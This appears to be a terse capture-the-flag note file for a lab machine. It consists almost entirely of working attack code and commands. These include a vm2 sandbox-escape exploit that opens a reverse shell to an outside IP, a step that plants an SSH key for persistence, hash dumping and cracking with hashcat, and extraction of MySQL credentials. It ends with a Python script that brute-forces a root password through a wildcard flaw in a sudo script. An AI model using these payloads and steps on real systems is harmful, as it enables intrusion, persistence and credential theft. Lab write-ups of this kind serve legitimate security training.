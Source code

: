 # ip
10.10.11.239

# lien exploit Sandbox Escape in vm2@3.9.16
https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244

# rev shell
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync("bash -c 'sh -i >& /dev/tcp/10.10.14.27/4444 0>&1'");
}

console.log(vm.run(code));

# connection ssh
~/.ssh/
ssh-keygen -f mykey
chmod 600 mykey
echo "<mykey.pub>" >> ~/.ssh/authorized_keys
ssh -i mykey <username>@<remote_ip>

# sql info
/var/www/contact/tickets.db
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

# hash bcrypt
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

# crack password hashcat
hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt
password:
spongebob1

su joshua
spongebob1

# root mysql command
mysql -u joshua -h 0.0.0.0 -p
show databases;
show tables;
describe user;
select User, Password from user;

# root password
*4ECCEBD05161B6782081E970D9D2C72138197218

# script python3 crack password *
import string
import subprocess

all_chars = list(string.ascii_letters + string.digits)
passwd = ""
fl = 0

while not fl:
        for char in all_chars:
                command = f"echo '{passwd}{char}*' | sudo /opt/scripts/mysql-backup.sh"
                out = subprocess.run(command, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True, text=True).stdout
                if "confirmed" in out:
                        passwd += char
                        print(f"\r{passwd}", end='')
                        break
        else:
                fl = 1
                print()